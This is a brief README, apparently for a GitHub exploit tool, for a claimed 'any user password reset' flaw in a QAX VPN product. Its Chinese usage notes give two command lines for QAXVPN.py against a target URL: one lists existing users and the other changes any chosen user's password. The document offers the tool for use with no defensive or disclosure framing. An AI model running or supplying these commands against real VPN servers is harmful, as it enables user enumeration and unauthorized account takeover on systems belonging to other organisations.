 # QAX_VPN Any User Password Reset


使用方法

遍历当前存在用户
python QAXVPN.py -t https://1.1.1.1 -lu 
修改任意用户密码
python QAXVPN.py -t https://1.1.1.1 -u user1 -cp 
